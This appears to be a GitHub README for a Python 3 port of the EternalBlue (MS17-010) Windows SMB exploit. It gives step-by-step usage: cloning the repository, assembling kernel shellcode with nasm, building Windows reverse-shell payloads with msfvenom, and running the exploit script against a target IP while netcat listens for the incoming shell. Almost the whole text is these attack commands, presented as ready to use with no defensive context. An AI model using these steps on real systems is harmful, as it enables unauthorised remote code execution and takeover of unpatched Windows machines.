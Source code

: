 # EternalBlue-in-Python3

## How to use

### Clone the repository

```git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git```

### Compiling the shellcode(s)

### X64

```nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin```

### X86

```nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin```


### Create a Bin

### X64

```msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin```

### X86

```msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin```


### Exploit

```python3 eternal-blue.py TARGET-IP final.bin
in other term open the nc to recive the connection
```
